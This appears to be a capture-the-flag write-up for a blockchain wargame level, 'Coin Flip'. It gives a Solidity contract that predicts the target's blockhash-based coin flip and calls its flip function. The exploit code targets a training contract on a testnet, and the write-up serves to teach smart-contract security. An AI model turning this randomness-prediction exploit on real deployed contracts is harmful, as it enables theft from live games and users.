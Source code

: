 # Coin Flip #

Challange:

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

![Contract](img/1.png)

Solution:

The network block.number itself will change quite fast. We also can not be sure which block number our transaction will be included on.

![Block Number](img/2.png)

For this we can automate the transaction process in Remix using the same network as what we use to deploy the challange (In this case I use Sepolia). 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address CONTRACT_TARGET = Challange Contract Address;

    constructor() {
        consecutiveWins = 0;
    }

    function calculateNumber() public view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }

    function submitResult() public {
        bool guess = calculateNumber();
        (bool isSucess, ) = CONTRACT_TARGET.call(abi.encodeWithSignature("flip(bool)", guess));
        require(isSucess, "Call failed");
        consecutiveWins += 1;
    }
}
```

![Complete](img/3.png)